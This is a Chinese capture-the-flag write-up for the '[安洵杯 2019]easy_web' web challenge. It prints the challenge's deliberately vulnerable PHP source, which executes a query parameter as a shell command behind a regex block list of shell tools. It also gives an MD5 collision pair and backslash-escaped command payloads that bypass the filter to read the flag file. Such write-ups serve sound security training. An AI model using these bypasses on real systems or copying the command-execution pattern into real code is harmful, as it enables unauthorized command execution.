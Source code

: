 # \[安洵杯 2019]easy\_web

## \[安洵杯 2019]easy\_web

## 考点

* fastcoll进行md5碰撞
* 命令执行bypass

## wp

进去发现URL有问题`index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=`

尝试对其base64解码，发现解不出，加个`=`再试试，两次base64，一次hex

```
TXpVek5UTTFNa1UzTURaRk5qYz0=
MzUzNTM1MkU3MDZFNjc=
3535352E706E67
555.png
```

读取index.php，`index.php?img=TmprMlpUWTBOalUzT0RKbE56QTJPRGN3`

得到代码

```php
<?php
error_reporting(E_ALL || ~ E_NOTICE);
header('content-type:text/html;charset=utf-8');
$cmd = $_GET['cmd'];
if (!isset($_GET['img']) || !isset($_GET['cmd'])) 
    header('Refresh:0;url=./index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=');
$file = hex2bin(base64_decode(base64_decode($_GET['img'])));

$file = preg_replace("/[^a-zA-Z0-9.]+/", "", $file);
if (preg_match("/flag/i", $file)) {
    echo '<img src ="./ctf3.jpeg">';
    die("xixi～ no flag");
} else {
    $txt = base64_encode(file_get_contents($file));
    echo "<img src='data:image/gif;base64," . $txt . "'></img>";
    echo "<br>";
}
echo $cmd;
echo "<br>";
if (preg_match("/ls|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sh|\'|\"|\`|;|,|\*|\?|\\|\\\\|\n|\t|\r|\xA0|\{|\}|\(|\)|\&[^\d]|@|\||\\$|\[|\]|{|}|\(|\)|-|<|>/i", $cmd)) {
    echo("forbid ~");
    echo "<br>";
} else {
    if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {
        echo `$cmd`;
    } else {
        echo ("md5 is funny ~");
    }
}
?>
```

MD5是强制转换为string再比较，只能使用fastcoll进行碰撞

![](<../../.gitbook/assets/image (20) (1) (1).png>)

`fastcoll_v1.0.0.5.exe -p a.txt -o 1.txt 2.txt`

```
a=dada%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%81z%CE%10%97%DD%29%E5%E7%82%C4%F0%05n%BE%87ykQ%A9p%D2%9D%B83jC%BA%CA%A1F%FA%17%1D%10%C0N%87%2BPG%22%E1C%8F5%3E%87%14%81%80%1D%AB0%ACF%C7%0E%BD%A6%E8%C4%269%C9y%18%D9j%84%07%93w2%26%0D%C9%E89O2%1C%DA2%0D%26F%25%D1Zv%3D%ECG%DE%E5f%A5%C6%1A%F4%D2%FF%CC%CAsx%B7%B6de%26n%0B%EF%1D%83m%EB%08%B8%9F%AB%3FVZ%9A%E8&b=dada%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%81z%CE%10%97%DD%29%E5%E7%82%C4%F0%05n%BE%87ykQ%29p%D2%9D%B83jC%BA%CA%A1F%FA%17%1D%10%C0N%87%2BPG%22%E1C%8F%B5%3E%87%14%81%80%1D%AB0%ACF%C7%0E%BD%26%E8%C4%269%C9y%18%D9j%84%07%93w2%26%0D%C9%E89O2%1C%DA%B2%0D%26F%25%D1Zv%3D%ECG%DE%E5f%A5%C6%1A%F4%D2%FF%CC%CAsx%B7%B6%E4d%26n%0B%EF%1D%83m%EB%08%B8%9F%AB%BFVZ%9A%E8
```

然后绕命令执行，虽然禁用了ls，但是dir还可以使用

![](<../../.gitbook/assets/image (10) (1) (1) (1) (1) (1).png>)

空格不能直接敲，要用用%20代替，

过滤了`flag`和`cat`，用`\`绕过，`?cmd=ca\t%20/fl\ag` 查看flag

或者是`?cmd=sort%20/fl\ag`
